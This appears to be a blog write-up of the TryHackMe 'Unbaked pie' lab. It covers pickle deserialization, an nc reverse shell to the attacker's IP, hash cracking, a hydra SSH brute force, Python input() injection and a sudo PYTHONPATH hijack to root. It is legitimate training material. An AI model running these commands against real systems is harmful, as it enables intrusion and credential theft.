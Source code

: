 ```yaml
---
layout: post
title:  "TryHackMe Unbaked pie writeup"
date:   2020-12-08 12:59:36 +0200
categories: writeup tryhackme
---
```


This is a writeup for TryHackMe room [Unbaked pie](https://tryhackme.com/room/unbakedpie). 

Start with nmap scan. Target seems to be blocking ping probes so let’s disable host discovery.

```bash=
nmap -Pn 10.10.106.195            
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-08 20:45 EET
Nmap scan report for 10.10.106.195
Host is up (0.053s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE
5003/tcp open  filemaker
Nmap done: 1 IP address (1 host up) scanned in 69.44 seconds
```
Looking at the website at the single open port there are tasty recipes that hint to Python Pickle deserialization vulnerability.
![](https://i.imgur.com/e8CAVah.png)
Enumerating the site I can confirm that there is a Pickled cookie in the search functionality:

![](https://i.imgur.com/yoH1fyz.png)


I test that exploiting this works and yes. I can create files in the local file system and serve them over HTTP. I then create a Python exploit to easily run commands on the server:

{% gist 024c29c2b7128d23e7f9487aa7df5bf7 %}

After looking for flags etc. for a while I decide that it’s time for a reverse shell. I set up a local listener with nc and run the exploit:

```bash=
python3 exploit.py http://10.10.106.195:5003 "/bin/nc -e /bin/sh 10.8.108.247 4444 "
```
Enumerating the host we can dump Django credentials from /home/site/db.sqlite3:
![](https://i.imgur.com/2xhwnUt.png)

```bash=
hashcat -m 10000 hashes /usr/share/wordlists/rockyou.txt
```

Since Django hashes are pbkdf2 hashed it’s gonna be a while so I keep enumerating while I wait. Another interesting finding in /root/.bash_history shows that someone has been making SSH connections as ramsey from this box:

```bash
ssh ramsey@172.17.0.1
ssh ramsey@172.17.0.1
ssh ramsey@172.17.0.1
```

I upload a statically linked version of nmap and execute a scan. Looking at the probable docker host there is only SSH port open:

```
nmap 172.17.0.1
starting Nmap 6.49BETA1 ( http://nmap.org ) at 2020-12-08 18:23 UTC
Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Host is up (0.000011s latency).
Not shown: 1206 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:99:95:76:1E (Unknown)
Nmap done: 1 IP address (1 host up) scanned in 1.45 seconds
```
Let’s connect to that using ramsey’s password. But oh no, evil admin has removed ssh and there is no Internet connectivity! Not to worry, set up a local proxy server (I used Burp suite) and configure apt to use proxy:

```
echo 'Acquire::http::Proxy "http://10.8.108.247:8080/";' > /etc/apt/apt.conf.d/proxy.conf
```
Then install openssh back:

```
apt --fix-broken install
apt install openssh-client
```
No luck with hashcat so far so what if I try hydra from the docker guest? I install it with apt-get and also download rockyou.txt. I could have set up a tunnel for less noisy approach but maybe next time.

```
hydra -l ramsey -P rockyou.txt 172.17.0.1 ssh
 hydra -l ramsey -P rockyou.txt 172.17.0.1 ssh
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-08 19:26:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.1:22/
[22][ssh] host: 172.17.0.1   login: ramsey   password: __REDACTED__
1 of 1 target successfully completed, 1 valid password found
```
# Enumerating Docker host

We know the password so let’s start with sudo:

```bash=
sudo -l
[sudo] password for ramsey:
Matching Defaults entries for ramsey on unbaked:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User ramsey may run the following commands on unbaked:
    (oliver) /usr/bin/python /home/ramsey/vuln.py
```

Looking at the vuln.py code there seems to a vulnerability in using input() so let’s abuse that and land a shell as oliver:

```bash=
Enter Options >> __import__(‘os’).system(‘/bin/bash’)
$ id
uid=1002(oliver) gid=1002(oliver) groups=1002(oliver),1003(sysadmin)
```

the difference beween ramsey and oliver seems to be the group membership. Let’s figure out what sysadmins can do:

```bash
find / -group sysadmin 2>/dev/null
/opt/dockerScript.py
cat dockerScript.py
import docker
# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)
```

ok cool. Let’s check sudo -l even though we don’t have the password:

```bash=
sudo -l
Matching Defaults entries for oliver on unbaked:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User oliver may run the following commands on unbaked:
    (root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
```

When we control the environment, we can set the Python path and use it to exploit by loading Docker.py (create to /tmp):

```python=
import os
os.system("/bin/bash")
```
Now run the script with PYTHONPATH set:
```bash=
sudo PYTHONPATH=/tmp /usr/bin/python /opt/dockerScript.py
```
And BOOM we are root! Thanks for the great box. Lot’s of fun Python stuff to abuse.
